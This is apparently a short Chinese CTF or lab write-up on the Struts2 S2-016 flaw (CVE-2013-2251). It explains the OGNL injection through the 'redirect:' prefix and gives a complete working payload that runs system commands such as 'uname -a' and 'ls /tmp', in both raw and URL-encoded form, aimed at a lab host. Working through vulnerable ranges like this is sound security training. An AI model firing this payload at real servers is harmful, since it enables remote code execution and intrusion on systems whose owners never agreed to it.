

Struts2 远程代码执行(CVE-2013-2251) (s2-016)

有cve，直接github找利用脚本，这里可以github找工具打，也可以找payload手工打，由于靶场环境，直接手工打。

payload：

在 struts2 中，DefaultActionMapper 类支持以”action:”、”redirect:”、”redirectAction:” 作为导航或是重定向前缀，但是这些前缀后面同时可以跟 OGNL 表达式，由于 struts2 没有对这些前缀做过滤，导致利用 OGNL 表达式调用 java 静态方法执行任意系统命令。

所以，访问 http://your-ip:8080/index.action?redirect:OGNL表达式即可执行 OGNL 表达式。

Payload:

redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}

Redirect: 后边部分需要url编码

编码后：

http://123.58.236.76:25056/index.action?redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22ls%20%2Ftmp%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()%7D

成功拿到flag

